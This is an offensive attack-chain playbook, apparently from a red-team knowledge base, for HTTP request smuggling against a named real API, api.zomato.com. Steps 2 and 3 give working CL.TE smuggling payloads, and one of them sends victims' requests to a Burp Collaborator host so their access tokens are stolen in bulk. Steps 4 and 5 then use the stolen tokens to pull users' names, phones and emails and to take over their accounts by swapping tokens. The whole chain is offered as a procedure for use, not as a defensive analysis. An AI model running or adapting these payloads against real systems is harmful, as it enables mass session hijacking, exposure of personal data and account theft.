

---
tags:
  - http-request-smuggling
  - session-hijacking
  - account-takeover
  - pii-leak
  - open-redirect
type: attack_chain
tools:
  - '[[tools/Custom-HTTP-Smuggling-Tools]]'
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/smuggle-request-basic]]'
  - '[[commands/smuggle-request-token-theft]]'
  - '[[commands/smuggle-request-triage]]'
  - '[[commands/get-userid]]'
  - '[[commands/get-userdetails]]'
  - '[[commands/post-auth]]'
platforms:
  - Web
  - Cloud (Akamai)
complexity: medium
procedures:
  - '[[procedures/Detect-HTTP-Request-Smuggling-Vulnerability]]'
  - '[[procedures/Craft-Smuggling-Payload-for-Request-Hijacking]]'
  - '[[procedures/Exploit-Smuggling-with-Open-Redirect-for-Token-Theft]]'
  - '[[procedures/Retrieve-UserID-and-PII-with-Stolen-Token]]'
  - '[[procedures/Perform-Session-Takeover-by-Token-Swapping]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Use Alternate Authentication Material]]'
description: >-
  Multi-stage attack exploiting HTTP Request Smuggling on api.zomato.com to
  hijack sessions, steal access tokens in bulk, leak PII, and perform account
  takeovers.
skill_level: intermediate
impact_level: high
id: 326dcdad-c0eb-4837-bf48-7687aa978282
created_at: '2025-12-11T06:10:24.615Z'
updated_at: '2025-12-11T06:10:24.615Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0001]]'
  - '[[TA0002]]'
  - '[[TA0009]]'
mitre_techniques:
  - '[[T1190]]'
  - '[[T1550]]'
---
# HTTP Request Smuggling for Bulk Access Token Theft and Account Takeover on Zomato API

Multi-stage attack chain demonstrating a complete attack workflow exploiting a CL.TE-based HTTP Request Smuggling vulnerability on api.zomato.com, caused by desynchronization between Akamai frontend and backend servers. The attack involves testing for smuggling variants, crafting payloads to poison backend sockets, chaining with an open redirect to steal X-Access-Tokens, retrieving PII, and performing account takeovers.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Custom-HTTP-Smuggling-Tools]]
- [[tools/Burp-Suite]]

### Target Environment

- Target Platform: Web, Cloud (Akamai)
- Required services/ports: Akamai, Zomato API on port 443
- Network access requirements: Direct access to api.zomato.com over HTTPS

### Initial Access Requirements

- Credential requirements: None initially
- Network position: External attacker
- Prior access needed: None

## Detailed Attack Procedures

### Step 1: Detect Vulnerability - [[procedures/Detect-HTTP-Request-Smuggling-Vulnerability]]

**Objective**: Identify the CL.TE HTTP Request Smuggling vulnerability using custom tools to test smuggling payloads.

**Instructions**: Use [[tools/Custom-HTTP-Smuggling-Tools]] to test over 150 smuggling payloads on api.zomato.com, focusing on the 'tabprefix1' variant where the Transfer-Encoding header has a tab after the colon.

Look for desynchronization where the frontend falls back to Content-Length, but the backend processes as chunked.

**Expected Output**: Confirmation of smuggling via response discrepancies or socket poisoning indicators.

**Success Indicators**:
- Detection of CL.TE desync with tab-prefixed Transfer-Encoding
- Successful identification of vulnerable payload variant

### Step 2: Craft Payload for Hijacking - [[procedures/Craft-Smuggling-Payload-for-Request-Hijacking]]

**Objective**: Craft a smuggling payload to demonstrate request hijacking by prepending attacker data to victim requests.

**Instructions**: Construct and send the smuggling request using [[commands/smuggle-request-basic]]:

```
DELETE / HTTP/1.1
Transfer-Encoding: chunked
Host: api.zomato.com
Content-Length: 51
User-Agent: Treasure/6.7
0
GET /some/other/endpoint HTTP/1.1
X-Ignore: X[STOP]
```

This poisons the backend socket, forcing victim requests to redirect.

**Expected Output**: Hijacked victim request redirected to the specified endpoint.

**Success Indicators**:
- Victim request prepended with attacker data
- Observed redirection in backend processing

### Step 3: Exploit with Redirect for Token Theft - [[procedures/Exploit-Smuggling-with-Open-Redirect-for-Token-Theft]]

**Objective**: Chain the smuggling with an open redirect to steal X-Access-Tokens in bulk by redirecting victims to an attacker-controlled endpoint.

**Instructions**: Use Burp Suite Repeater to send the payload via [[commands/smuggle-request-token-theft]]:

```
DELETE / HTTP/1.1
Transfer-Encoding: chunked
Host: api.zomato.com
Content-Length: 91
User-Agent: Treasure/6.7
0
GET https://2psvzm9pf3hkuz2dptyimjaynptfh4.burpcollaborator.net/desync/ HTTP/1.1
X: X
```

Alternatively, for triage, use [[commands/smuggle-request-triage]]:

```
DELETE / HTTP/1.1
Transfer-Encoding: chunked
Host: api.zomato.com
Content-Length: 91
User-Agent: Treasure/6.7
0
GET https://**YOUR_COLLAB_URL**/desync/ HTTP/1.1
X: X
```

Capture tokens via Burp Collaborator.

**Expected Output**: Victim tokens and IPs captured in Collaborator.

**Success Indicators**:
- Successful 301 redirect with headers including X-Access-Token
- Bulk token theft observed

### Step 4: Retrieve PII with Stolen Token - [[procedures/Retrieve-UserID-and-PII-with-Stolen-Token]]

**Objective**: Use the stolen token to fetch UserID and leak PII such as names, phones, and emails.

**Instructions**: Send a GET request using [[commands/get-userid]]:

```
GET /v2/tabbed/home HTTP/1.1
```

to obtain the UserID, then use [[commands/get-userdetails]]:

```
GET /v2/userdetails.json/<USERID> HTTP/1.1
```

to access PII.

**Expected Output**: Response containing UserID and PII details.

**Success Indicators**:
- Successful retrieval of UserID
- PII leaked including name, phone, email

### Step 5: Perform Session Takeover - [[procedures/Perform-Session-Takeover-by-Token-Swapping]]

**Objective**: Achieve account takeover by swapping tokens in an authentication response.

**Instructions**: Intercept your own POST request using [[commands/post-auth]]:

```
POST /v2/auth
```

and replace the Access-Token and UserID with the victim's in the response.

**Expected Output**: Successful session takeover with victim's access.

**Success Indicators**:
- Authenticated as victim
- Access to victim's account data

## Attack Chain Summary

### Key Achievements

1. Detection and exploitation of HTTP Request Smuggling for socket poisoning
2. Bulk theft of access tokens via chained open redirect
3. PII leakage and full account takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Use Alternate Authentication Material]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

*Last updated: 2023-10-01*
